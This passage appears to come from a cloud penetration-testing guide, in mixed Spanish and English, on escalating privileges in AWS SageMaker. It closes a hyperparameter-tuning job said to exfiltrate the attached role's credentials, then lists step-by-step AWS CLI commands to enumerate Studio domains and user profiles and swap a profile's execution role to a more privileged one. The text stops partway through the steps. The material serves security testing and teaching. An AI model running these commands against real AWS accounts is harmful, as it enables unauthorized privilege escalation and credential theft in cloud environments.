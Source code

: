 ```bash
  },
  "ResourceConfig": {
    "InstanceType": "ml.m5.large",
    "InstanceCount": 1,
    "VolumeSizeInGB": 50
  },
  "StoppingCondition": {
    "MaxRuntimeInSeconds": 600
  }
}
EOF

aws sagemaker create-hyper-parameter-tuning-job \
  --hyper-parameter-tuning-job-name privesc-hpo \
  --hyper-parameter-tuning-job-config '{"Strategy":"Random","ResourceLimits":{"MaxNumberOfTrainingJobs":1,"MaxParallelTrainingJobs":1},"HyperParameterTuningJobObjective":{"Type":"Maximize","MetricName":"train:loss"}}' \
  --training-job-definition file:///tmp/hpo-definition.json
```

Cada entrenamiento lanzado por el proceso imprime la métrica y exfiltra las credenciales del rol indicado.

### `sagemaker:UpdateUserProfile`, `iam:PassRole`, `sagemaker:CreateApp`, `sagemaker:CreatePresignedDomainUrl`, (`sagemaker:DeleteApp`)

With the permission to update a SageMaker Studio User Profile, create an app, a presigned URL to the app and `iam:PassRole`, an attacker can set the `ExecutionRole` to any IAM role that the SageMaker service principal can assume. New Studio apps launched for that profile will run with the swapped role, giving interactive elevated permissions via Jupyter terminals or jobs launched from Studio.

> [!WARNING]
> This attack requires that there are no applications in the profile or the app creation will fail with an error similar to: `An error occurred (ValidationException) when calling the UpdateUserProfile operation: Unable to update UserProfile [arn:aws:sagemaker:us-east-1:947247140022:user-profile/d-fcmlssoalfra/test-user-profile-2] with InService App. Delete all InService apps for UserProfile and try again.`
> If there is any app you will need `sagemaker:DeleteApp` permission to delete them first.

Steps:

```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}' 

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# Choose a more-privileged role that already trusts sagemaker.amazonaws.com
ROLE_ARN=arn:aws:iam::<ACCOUNT_ID>:role/<HighPrivSageMakerExecutionRole>

# 3) Update the Studio profile to use the new role (no iam:PassRole)
aws sagemaker update-user-profile \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --user-settings ExecutionRole=$ROLE_ARN

aws sagemaker describe-user-profile \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --query 'UserSettings.ExecutionRole' --output text

# 3.1) Optional if you need to delete existing apps first
# List existing apps
```